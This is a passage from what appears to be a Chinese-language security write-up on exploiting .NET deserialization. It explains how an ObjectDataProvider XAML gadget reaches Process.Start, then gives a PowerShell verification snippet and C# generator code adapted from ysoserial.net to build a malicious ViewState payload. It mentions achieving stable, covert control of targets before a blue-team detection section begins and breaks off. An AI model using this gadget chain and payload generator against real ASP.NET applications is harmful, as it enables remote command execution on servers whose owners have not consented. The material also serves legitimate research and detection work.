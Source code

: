 XamlReader在解析上述xaml时，首先根据根元素创建`ResourceDictionary`对象，该对象实现了IDirectory接口，所以其后的ObjectDataProvider将作为成员进行存储。接下来初始化`ObjectDataProvider`对象，并设置`ObjectType`、`MethodName`、`MethodParameters`三个属性。

ObjectDataProvider在`MethodParameters`改变时会调用`OnParametersChanged`方法，最终将通过反射调用`Process.Start`，并传递参数。其流程和以下伪代码相对应：

```
typeof(Process).GetMethod("Start").Invoke(null,new object[]`{`"cmd",""/c notepad""`}`)
```

可将xaml进行保存，然后执行下面的PowerShell脚本进行验证：

```
Add-Type -AssemblyName PresentationFramework
[System.Windows.Markup.XamlReader]::Parse([io.file]::readalltext('xaml.txt'))
```

最后，我们可以将ysoserial.net中相关代码提取出来，稍作修改和之前的代码合并作为生成器：

```
[Serializable]
public class TextFormattingRunPropertiesMarshal : ISerializable
`{`
  protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)`{``}`
  string _xaml;
  public void GetObjectData(SerializationInfo info, StreamingContext context)
  `{`
    info.SetType(typeof(TextFormattingRunProperties));
    info.AddValue("ForegroundBrush", _xaml);
  `}`
  public TextFormattingRunPropertiesMarshal(string xaml)
  `{`
    _xaml = xaml;
  `}`
`}`
static byte[] GetViewState(byte[] data)`{`....`}`
//in main
byte[] data=GetViewState(Serialize(new TextFormattingRunPropertiesMarshal(xa)));
```

成功执行命令仅仅是一个开始。无论红队还是蓝队，在目标无法出网的情况下，单纯的执行命令既不能判断漏洞存在与否，也很难达成稳定隐蔽的控制。

请记住`xaml`这个关键点，在后续的漏洞利用过程中是最为重要的一环。



## 0x30 蓝队：检测与缓解措施

### <a class="reference-link" name="0x31%20%E6%9E%84%E9%80%A0%E6%A3%80%E6%B5%8Bxaml"></a>0x31 构造检测xaml

在远程无回显地执行命令很难确切地知道漏洞利用成功与否，由于不确定目标环境是否能够出网，即使有dnslog这种方式也很难做到完整检测。

所以我们需要一种简单的方式进行验证。

xaml不光支持调用`静态方法`，同样支持获取`静态属性`、获取`实例属性`或调用`实例方法`。于是可以通过`[System.Web]System.Web.HttpContext::Current`获取当前Http上下文，并对`Response`进行操作。
